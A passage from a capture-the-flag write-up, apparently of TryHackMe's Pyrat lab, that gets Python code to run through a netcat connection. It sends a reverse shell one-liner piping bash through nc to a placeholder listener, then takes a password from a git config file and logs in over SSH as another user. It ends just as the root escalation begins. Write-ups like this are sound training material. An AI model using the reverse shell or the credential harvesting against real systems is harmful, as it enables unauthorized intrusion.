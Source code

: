 Seeing this, what comes in mind is to try connecting via netcat as follows:

```bash
nc 10.10.167.212 8000
```

With this command, we establish a connection with the server but we get nothing from it. Let’s try and see if we can run python code

{{<figure src="/img/thm/pyrat/py_code_exec.webp" position=center caption="Python Code Execution">}}

We can see that the server executed our code. We can now try to get a reverse shell using the following one-liner payload:

```python
import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <LHOST> <LPORT> >/tmp/f")
```

> Don’t forget to replace `<LHOST>` and `<LPORT>` with the IP and Port of your listener.

{{<figure src="/img/thm/pyrat/rev_shell.webp" position=center caption="Reverse shell">}}

We got a shell back!

## Privesc
___
### www-data -> think
___
After some exploration, we stumble upon an interesting folder at `/opt/dev`. Listing the contents of this folder we see that it’s a git repository.

When we try to execute basic git commands we get an error basically saying that this repo doesn’t belong to our user:

{{<figure src="/img/thm/pyrat/dubious_ownership_git.webp" position=center caption="Dubious ownership of the repository">}}

We can see that the user `think` is the owner of this repo.

With further digging, we find a password inside `/opt/dev/.git/config`:

{{<figure src="/img/thm/pyrat/think_user_password.webp" position=center caption="think's password found in /opt/dev/.git/config">}}

If we try this password with ssh, we are able to login to the machine as think and get the user flag at `/home/think/user.txt`:

{{<figure src="/img/thm/pyrat/user_flag.webp" position=center caption="User flag obtained !">}}

### think -> root
___
Now that we have a shell as think, let’s see what was in that git repository.

{{<figure src="/img/thm/pyrat/git_status.webp" position=center caption="Running git status">}}

We can see that there was a file named `pyrat.py.old`. 
